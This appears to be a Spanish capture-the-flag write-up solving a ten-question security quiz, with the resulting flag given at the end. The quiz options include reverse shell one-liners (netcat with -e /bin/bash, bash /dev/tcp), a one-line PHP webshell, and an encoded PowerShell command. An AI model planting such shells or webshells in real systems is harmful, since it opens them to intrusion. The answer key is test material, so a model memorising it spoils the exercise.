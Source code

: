 Consistía en resolver este test:
1. ¿Cuál de estas shells reversas funciona en Kali si estamos en escucha por el puerto tcp 5555  
	1. a. nc localhost 5555  
	2. b. nc -u 127.0.0.1 5555 -e /bin/bash 
	3. c. bash -c "bash -i >& /dev/tcp/127.0.0.1/5555 0>&1"  
	4. d. Todas las anteriores

2.  ¿Qué código PHP sirve para ejecutar comandos en una webshell con el parámetro cmd?  
	1. a.` <?php system($_GET['cmd']); ?>  `
	2. b. `<?php system($cmd); ?>  `
	3. c. `<?php $_GET['cmd'](); ?>`  
	4. d. Ninguna de las anteriores

3. ¿Qué comando te monta un servidor web local en el puerto 6666 de la carpeta en la que estás?  
	1. a. python3 -m SimpleHTTPServer 6666  
	2. b. python3 -m http.server 6666  
	3. c. nc -nvlp 6666 .  
	4. d. Ninguno

4.  ¿Qué opción de nmap permite escanear puertos SCTP?  
	1. a. -sY  
	2. b. -sT  
	3. c. -sU  
	4. d. Los puertos SCTP no existen

5.  ¿Qué parametro se utiliza para usar una clave pública (id_rsa) en el login de un ssh?  
	1. a. ssh -i id_rsa user@ip 
	2. b. ssh -p id_rsa user@ip  
	3. c. ssh -k id_rsa user@ip  
	4. d. ssh -oHostKeyAlgorithms=id_rsa user@ip

6.  ¿Qué comando codificado 'ls' es válido para ejecutar en un powershell (powershell -enc XXXXXX)  
	1. a. ls 
	2. b. bABzAAoA  
	3. c. bHM= 
	4. d. En powershell no funciona ls

7. ¿Qué comando de los siguientes se usa para realizar una transferencia de zona de un DNS?  
	1. a. dig zonetransfer.me TXT  
	2. b. dig @nsztm2.digi.ninja zonetransfer.me trzn  
	3. c. dig zonetransfer.me NS  
	4. d. dig @nsztm2.digi.ninja zonetransfer.me axfr

8. bf 51 75 e9 20 70 72 65 67 75 6e 74 61 20 65 73 20 65 73 74 61 3f  
	1. a. 1  
	2. b. 8  
	3. c. 31  
	4. d. 38

9. Juegan blancas y hacen mate en X movimientos: 
	1. a. 13
	2. b. 15
	3. c. 21
	4. d. 23 
![](../Imágenes/Pasted%20image%2020241106232816.png)


10.  ¿Cuál de estas flags está puesta para engañar a propósito  
	1. a. cibergal{cadababada}  
	2. b. cibergal{aaaaaaaaab}  
	3. c. cibergal{abcdabcdab}  
	4. d. cibergal{abacadabaa}

La mayoría de preguntas son de conocimientos pero algunas peculiares:
6 https://stackoverflow.com/questions/53269099/powershell-base64-encoding-required

```bash
iconv -f ASCII -t UTF-16LE ls |base64 -w 0
```

Escribiendo ls en un fichero y usando el comando:
![](../Imágenes/Pasted%20image%2020241106233039.png)

8 Está en hexadecimal, 
```bash
echo "bf 51 75 e9 20 70 72 65 67 75 6e 74 61 20 65 73 20 65 73 74 61 3f" | tr -d ' '  | base16 -d  
�Qu� pregunta es esta?  
```
La respuesta es la d porque 8 en hexadecimal es: 

```bash
echo -n "8" | base16                 
38
```

9 Hay webs que te encuentran los movimientos que deben hacer

10 Inspeccionando el html se ve una pista fake:
![](../Imágenes/Pasted%20image%2020241106233704.png)

En resumen: 
cibergal{cabaabddcd}